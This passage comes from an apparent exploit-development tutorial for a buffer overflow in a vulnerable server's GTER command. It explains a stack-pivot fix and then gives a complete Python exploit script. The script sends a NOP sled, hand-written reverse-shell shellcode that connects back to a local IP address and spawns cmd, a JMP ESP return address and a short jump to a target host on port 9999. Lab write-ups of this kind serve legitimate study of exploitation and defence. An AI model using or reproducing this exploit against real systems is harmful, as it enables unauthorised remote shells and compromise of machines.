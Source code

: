 Add the instructions in at the beginning of where our shellcode would start and let's test.

![pushpop](/img/gter-pushpop.png)

Let's step through these instructions and inspect our registers and stack again.

![newregs](/img/gter-regs.png)

![newstack](/img/gter-newstack.png)

Success! We can see now that our stack will write above our shellcode and will execute correctly now. Let's update the PoC with the PUSH EAX, POP ESP instructions (\x50\x5c) and test.

### Final Exploit

```python
#!/usr/bin/python

import socket

host = '192.168.47.132'
port = 9999


s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)


# 625011AF
jmp_esp = "\xaf\x11\x50\x62"

# max short negative JMP
short_jmp = "\xeb\x80"

revshell  = "\x50\x5c\x31\xc0\x50\x50\x50\x31\xdb\xb3\x06\x53\x40\x50\x40\x50\xbb\x30\x97\x4e\x75\x31\xc0\xff" 
revshell += "\xd3\x96\x68\xc0\xa8\x2f\x80\x66\x68\x11\x5c\x31\xdb\x80\xc3\x02\x66\x53\x89\xe2\x6a\x10\x52\x56\xbb\xe0" 
revshell += "\x5e\x4e\x75\xff\xd3\xba\x63\x63\x6d\x64\xc1\xea\x08\x52\x89\xe1\x31\xd2\x83\xec\x10\x89\xe3\x56\x56\x56\x52" 
revshell += "\x52\x31\xc0\x40\xc1\xc0\x08\x50\x52\x52\x52\x52\x52\x52\x52\x52\x52\x52\x31\xc0\x04\x2c\x50\x89\xe0\x53"
revshell += "\x50\x52\x52\x52\x31\xc0\x40\x50\x52\x52\x51\x52\xbb\x30\x66\xf3\x74\xff\xd3"


crash = "\x90" * 29 + revshell + jmp_esp + short_jmp + "\x43" * 500

buffer = "GTER "
buffer += crash
buffer += "\r\n"

s.connect((host, port))
s.send(buffer)
s.recv(1024)
s.close()

```
